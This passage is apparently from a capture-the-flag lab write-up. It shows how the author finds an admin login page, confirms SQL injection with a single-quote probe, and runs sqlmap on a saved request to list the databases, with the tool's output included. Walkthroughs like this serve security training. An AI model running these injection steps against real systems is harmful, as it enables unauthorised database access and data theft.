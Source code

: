 We found two interesting directories `admin` and `admin_101`.

Let's check the first one.

![admi](1.png)

It's a login portal, Trying to submit some credentials doesn't even send any request to the server. If we check the source code we can see why.

The `admin_101` is the same login page but contains the email `hacker@root.thm`. Trying to login on this page give us an error.

Checking the request on burp we find the following:

![burp](2.png)

We see a SQL query used by the website, adding a single quote `'` to the email produces and error.

![sqli](3.png)

This means there is a sql injection vulnerability.

Let's copy the request from burp to a file and give it to `sqlmap`.

```bash
sqlmap -r expose.req --batch --dbs
```

The command above performs the sql injection and retrieves the databases names.

```terminal
$ sqlmap -r file.req --batch --dbs                                                                                                                                                    
        ___                                                                                                                                                                                   
       __H__                                                                                                                                                                                  
 ___ ___[.]_____ ___ ___  {1.8.3#stable}                                                                                                                                                      
|_ -| . [(]     | .'| . |                                                                                                                                                                     
|___|_  [)]_|_|_|__,|  _|                                                                                                                                                                     
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                  
                                                                                               
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws.
 Developers assume no liability and are not responsible for any misuse or damage caused by this program                                                                                       
                                                                                                                                                                                              
[*] starting @ 17:49:42 /2024-11-19/                                                           
                                                                                                                                                                                              
[17:49:42] [INFO] parsing HTTP request from 'file.req'                                                                                                                                        
[17:49:43] [INFO] testing connection to the target URL                                                                                                                                        
[17:49:43] [CRITICAL] previous heuristics detected that the target is protected by some kind of WAF/IPS                                                                                       
[17:49:43] [INFO] testing if the target URL content is stable                                                                                                                                 
[17:49:43] [INFO] target URL content is stable                                                                                                                                                
[17:49:43] [INFO] testing if POST parameter 'email' is dynamic
[...]
available databases [6]:                                                                                                                                                                      
```